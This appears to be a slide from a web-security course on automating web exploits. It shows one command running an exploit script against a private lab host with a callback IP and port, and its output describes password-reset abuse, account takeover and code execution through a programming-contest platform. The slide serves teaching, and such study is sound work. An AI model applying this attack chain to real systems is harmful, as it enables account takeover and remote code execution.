

Web (cont.)
Basic Web : Automating Web Exploits
Next, we will run our exploit
$ python3 full_exploit.py http://172.16.238.100 joe@omani.cloud 172.16.238.1 9998
[*] The password has been reset!
[+] Found password reset code: 140de9fef89f952fbd92098565f40f846e77e9e3
[+] The password has been changed successfully!
[+] The new password: 8930a3957eef8bd6
[*] Logged in successfully!
[*] Python has been added successfully as a Programming language!
[*] Language has been activated successfully!
[*] Created a test problem!
[*] Extracting the problem's ID..
[+] Found problem ID: 1
[*] Test case has been added!
[+] Contest has been created successfully!
[*] Extracting the contest's ID..
[+] Found contest's ID: 1
[+] Contest has been activated successfully!
[+] The language has been added sucessfully to contest
[+] The problem has been added to contest
[+] Subscribed successfully to contest
[*] Waiting for the contest to start :)
[+] Our code should have been executed!
43